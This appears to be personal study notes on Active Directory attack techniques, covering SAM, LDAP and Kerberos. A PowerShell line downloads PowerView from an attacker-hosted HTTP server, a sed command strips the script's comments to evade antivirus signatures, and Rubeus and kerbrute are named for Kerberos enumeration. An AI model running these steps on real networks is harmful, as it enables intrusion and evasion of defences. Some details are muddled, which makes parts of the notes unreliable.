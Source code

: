 #      👁️👁️  

## Active Directory

Stores information of resources of a network. <br/>

### Basic Elements

* Forests - The Highest level. Can contain one or more domains.
* Domains - Can contain one or more OU
* Organizational Units - Let apply Group Policies and group permissions

__EVERYTHING IS AN OBJECT!__ <br/>

### SAM - Security Account Manager

Stores information about users, groups and passwords. <br/>

The SAM DB is checked by the __LSA__ Local Security Authority <br/>

SAM is for cached credentials <br/>

We can see them in C:\Users\jhon\Desktop\logonSessions\logonsessions.exe <br/>

NTDS (NT Directory Server)

### LDAP - Lightweight Directory Access Protocol

Is an Application Protocol that lets interact with Directory Services to store, read or modify information. <br/>

__copy from kali linux to windows__ <br/>

>python2 -m SimpleHTTPServer

* The file has to be in our directory where runs the FTP.

* Now run from powershell:

>(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.129:8000/PowerView.ps1", "powerview.ps1")

__run PowerView__ <br/>

AV's by default has a Hash signature, we have to edit the file to skip them: <br/>

* From Kali Linux:

>sed '/<#/,/#>/d' powerview.ps1 > new_powerview.ps1

* From Powershell:

>. .\new_powerview.ps1

### ACL - Access Control List

Lists to manage and control access permitions


### KERBEROS

Authentication Protocol for Active Directory. <br/>

We can use wireshark to scan Kerberos (KRB5) where we can find: <br/>

* AS-REQ (Authentication Service Request) - Sends cname and sname
* KRB Error: KRB5KDC_ERR_PREAUTH_REQUIRED
  * User exists! - DC Requires a cipher Timestamp, otherwise: PRINCIPAL_UNKNOWN
* AS-REP (Authentication Service Reply)
* TGS (Ticket Granted Service)

>We can use kerbrut

>We can use Rubeus

https://github.com/GhostPack/Rubeus <br/>

* Go to __Compile Instructions__
* __Install__ .Net Development Desktop from Visual Studio in the given link.
* Open project (Choose _Rubeus.sln_)
* Select Rubeus folder and go to __Compile__
